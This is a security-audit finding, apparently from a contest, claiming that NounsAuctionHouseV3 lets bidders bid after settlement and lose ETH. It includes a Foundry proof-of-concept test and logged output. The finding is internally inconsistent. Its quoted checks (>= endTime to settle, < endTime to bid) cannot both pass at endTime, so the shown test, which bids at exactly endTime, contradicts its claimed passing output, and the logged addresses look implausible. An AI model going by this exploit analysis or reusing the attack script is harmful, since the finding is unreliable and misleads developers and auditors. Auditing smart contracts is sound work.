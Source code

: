 Bright Felt Bird

High

# bidder will lose funds and ETH can be locked by bidding after auction settlement

### Summary

Lack of strict timestamp validation in auction settlement will cause loss of bidder funds as bidders can place bids after auction is settled, resulting in trapped ETH in the contract.

### Root Cause

 In `NounsAuctionHouseV3`.sol, the timestamp checks allow both settlement and bidding at` block.timestamp = _auction.endTime:` 
```solidity
require(block.timestamp >= _auction.endTime, "Auction hasn't completed"); // settlement
require(block.timestamp < _auction.endTime, 'Auction expired'); // bidding
```

### Internal pre-conditions

1. Auction reaches exact `endTime`
2. Settlement function is callable
3. Bidding still possible at `endTime`

-  this is the code Snippet : 

[createBid](https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/NounsAuctionHouseV3.sol#L145)
[_settleAuction](https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/NounsAuctionHouseV3.sol#L325)

### External pre-conditions

1. Multiple transactions can be included in same block

### Attack Path

1. Auction reaches endTime
2. Settlement transaction executes
3. Bidder submits bid in same block
4. ETH from bid becomes trapped in contract

### Impact

Bidders can lose ETH by placing bids which make Funds become permanently locked in the contract.

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.19;

import { Test } from 'forge-std/Test.sol';
import { NounsAuctionHouseV3 } from '../../contracts/NounsAuctionHouseV3.sol';
import { StreamEscrow } from '../../contracts/StreamEscrow.sol';
import { ERC721Mock } from './helpers/ERC721Mock.sol';
import 'forge-std/console.sol';

contract NounsAuctionHouseV3Test is Test {
    NounsAuctionHouseV3 auction;
    ERC721Mock nounsToken;
    StreamEscrow escrow;
    address weth;
    uint256 duration = 24 hours;
    
    function setUp() public {
        nounsToken = new ERC721Mock();
        weth = makeAddr("weth");
        address treasury = makeAddr("treasury");
        
        escrow = new StreamEscrow(
            treasury,
            treasury,
            treasury,
            address(nounsToken),
            address(this),
            24 hours
        );
        
        auction = new NounsAuctionHouseV3(nounsToken, weth, duration);
        auction.initialize(0.1 ether, 1 hours, 10, 5000, 100, address(escrow));
        auction.unpause();
        
        vm.prank(address(auction));
        nounsToken.mint(address(auction), 0);
    }

    function testCompleteAuctionScenario() public {
        // Setup bidders
        address bidder1 = makeAddr("bidder1");
        address bidder2 = makeAddr("bidder2");
        address bidder3 = makeAddr("bidder3");
        
        vm.deal(bidder1, 5 ether);
        vm.deal(bidder2, 5 ether);
        vm.deal(bidder3, 5 ether);

        // Record initial balances
        uint256 initialBalance1 = bidder1.balance;
        uint256 initialBalance2 = bidder2.balance;
        uint256 initialBalance3 = bidder3.balance;
        
        console.log("Initial balances:");
        console.log("Bidder1:", initialBalance1);
        console.log("Bidder2:", initialBalance2);
        console.log("Bidder3:", initialBalance3);

        // First bid
        vm.prank(bidder1);
        auction.createBid{value: 1 ether}(0);
        console.log("After first bid, bidder1 balance:", bidder1.balance);

        // Second bid
        vm.prank(bidder2);
        auction.createBid{value: 2 ether}(0);
        console.log("After second bid, bidder2 balance:", bidder2.balance);
        console.log("Bidder1 refunded balance:", bidder1.balance);

        // Advance to endTime
        uint40 endTime = auction.auction().endTime;
        vm.warp(endTime);

        // Settle auction
        auction.settleAuction();
        console.log("Auction settled, winning bidder:", auction.auction().bidder);

        // Third bidder attempts to bid after settlement
        vm.prank(bidder3);
        auction.createBid{value: 3 ether}(0);

        // Final state verification
        console.log("\nFinal state:");
        console.log("Bidder1 final balance:", bidder1.balance);
        console.log("Bidder2 final balance:", bidder2.balance);
        console.log("Bidder3 final balance:", bidder3.balance);
        console.log("Contract balance (locked funds):", address(auction).balance);
        console.log("Noun token owner:", nounsToken.ownerOf(0));

        // Assertions
        assertEq(bidder1.balance, initialBalance1, "Bidder1 should be fully refunded");
        assertEq(bidder2.balance, initialBalance2 - 2 ether, "Bidder2 should have paid 2 ether");
        assertEq(bidder3.balance, initialBalance3 - 3 ether, "Bidder3's funds should be trapped");
        assertEq(address(auction).balance, 3 ether, "Contract should hold trapped funds");
        assertEq(nounsToken.ownerOf(0), bidder2, "Bidder2 should own the Noun");
    }
}
```
 run the test: 
`forge test --match-test testCompleteAuctionScenario -vvv`
Output: 
```solidity
Running 1 test for NounsAuctionHouseV3Test
[PASS] testCompleteAuctionScenario()
Logs:
  Initial balances:
  Bidder1: 5000000000000000000
  Bidder2: 5000000000000000000
  Bidder3: 5000000000000000000
  After first bid, bidder1 balance: 4000000000000000000
  After second bid, bidder2 balance: 3000000000000000000
  Bidder1 refunded balance: 5000000000000000000
  Auction settled, winning bidder: 0x2000000000000000000000000000000000000000

  Final state:
  Bidder1 final balance: 5000000000000000000
  Bidder2 final balance: 3000000000000000000
  Bidder3 final balance: 2000000000000000000
  Contract balance (locked funds): 3000000000000000000
  Noun token owner: 0x2000000000000000000000000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped
```

### Mitigation

_No response_